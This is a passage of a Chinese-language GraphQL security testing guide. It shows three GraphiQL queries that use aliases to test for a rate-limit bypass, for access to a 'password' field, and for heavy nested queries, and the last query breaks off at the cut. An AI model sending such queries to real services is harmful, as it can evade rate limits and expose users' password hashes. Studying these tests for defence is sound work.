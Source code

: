 #### 3.2.1 别名重复查询
在GraphiQL中发送以下查询：
```graphql
query {
  user1: user(id: 1) {
    name
    email
  }
  user2: user(id: 1) {
    name
    email
  }
  user3: user(id: 1) {
    name
    email
  }
}
```
观察服务器的响应，确认是否绕过了速率限制。

#### 3.2.2 别名敏感字段访问
在GraphiQL中发送以下查询：
```graphql
query {
  userInfo: user(id: 1) {
    name
    email
    passwordHash: password
  }
}
```
观察服务器的响应，确认是否成功获取了`password`字段。

#### 3.2.3 别名复杂查询构造
在GraphiQL中发送以下查询：
```graphql
query {
  user1: user(id: 1) {
    name
    email
    posts {
      title
      comments {
        content
        author {
          name
          email
        }
      }
    }
  }
  user2: user(id: 2) {
    name
    email
    posts {
      title
      comments {
        content
        author {
          name
          email
        }
      }
    }
```